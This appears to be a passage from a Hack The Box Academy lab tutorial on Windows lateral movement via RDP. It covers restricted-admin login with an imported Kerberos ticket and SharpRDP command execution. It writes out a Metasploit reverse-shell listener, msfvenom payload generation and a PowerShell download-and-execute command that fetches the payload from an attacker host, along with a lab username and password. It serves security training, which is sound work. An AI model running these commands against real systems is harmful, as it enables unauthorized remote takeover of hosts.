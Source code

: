       doIFrjCCBaqgAwIBBaEDAgEWooIEsTCCBK1hggSpMIIEpaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      ...SNIP...

[+] Ticket successfully imported!
...SNIP...
</code></pre>
<p>From the window where we imported the ticket, we can use the <code>mstsc /restrictedAdmin</code> command:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; mstsc.exe /restrictedAdmin
</code></pre>
<p>It will open a window as the currently logged-in user. It doesn't matter if the name is not the same as the account we are trying to impersonate.</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/mstsc-restrictedadmin.png"/></p>
<p>When we click login, it will allow us to connect to RDP using the hash:</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/mstsc-rdp-with-ticket.png"/></p>
<h2>SharpRDP</h2>
<p><a href="https://github.com/0xthirteen/SharpRDP">SharpRDP</a> is a .NET tool that allows for non-graphical, authenticated remote command execution through RDP, leveraging the <code>mstscax.dll</code> library used by RDP clients. This tool can perform actions such as connecting, authenticating, executing commands, and disconnecting without needing a GUI client or SOCKS proxy.</p>
<p>SharpRDP relies on the terminal services library (<code>mstscax.dll</code>) and generates the required DLLs (<code>MSTSCLib.DLL</code> and <code>AxMSTSCLib.DLL</code>) from the <code>mstscax.dll</code>. It uses an invisible Windows form to handle the terminal services connection object instantiation and perform actions needed for lateral movement.</p>
<p>We will use Metasploit and PowerShell to execute commands on the target machine. In our Linux machine we will execute Metasploit to listen on port 8888:</p>
<pre><code class="language-shell-session">[!bash!]$ msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST 10.10.14.207; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"
</code></pre>
<p>Then we will generate a payload with msfvenom using PowerShell Reflection:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.207 LPORT=8888 -f psh-reflection -o s
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 774 bytes
Final size of psh-reflection file: 3543 bytes
Saved as: s
</code></pre>
<p>Next we use python http server to host our payload:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
</code></pre>
<p>Now we can use <code>SharpRDP</code> to execute a powershell command to execute our payload and provide a session:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" username=inlanefreight\helen password=RedRiot88
[+] Connected to          :  srv01
[+] Execution priv type   :  non-elevated
[+] Executing powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.207/s')
[+] Disconnecting from    :  srv01
[+] Connection closed     :  srv01
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> The execution of commands of <code>SharpRDP</code> is limited to 259 characters. </p>
</div>
</div>